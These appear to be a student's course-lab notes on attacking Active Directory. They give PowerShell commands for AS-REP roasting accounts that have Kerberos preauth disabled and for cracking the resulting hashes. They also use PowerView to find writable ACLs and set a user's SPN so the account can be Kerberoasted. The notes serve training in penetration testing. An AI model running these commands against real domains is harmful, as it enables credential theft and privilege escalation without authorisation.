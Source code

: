 #### ASREPRoast
```powershell
Get-ASREPHash -UserName VPN1user -Verbose
```

#### Enumerate all users with Kerberos preauth disabled and request a hash
```powershell
Invoke-ASREPRoast -Verbose
```


#### Crack hash with John The Ripper

![[Pasted image 20230106200500.png]]

# Learning Objective 15

• Enumerate users that have Kerberos Preauth disabled.

• Obtain the encrypted part of AS-REP for such an account. 

• Determine if studentx has permissions to set UserAccountControl flags for any user. 

• If yes, disable Kerberos Preauth on such a user and obtain encrypted part of AS-REP.

# Set SPNs

• With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain). 

• We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".

#### Let's enumerate the permissions for RDPUsers on ACLs using PowerView (dev)
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"} 
```

#### Using Powerview (dev), see if the user already has a SPN
```powershell
Get-DomainUser -Identity supportuser | select serviceprincipalname 
```

#### Using ActiveDirectory module
```powershell
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

#### Set a SPN for the user (must be unique for the domain)
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='ops/whatever1'}
```
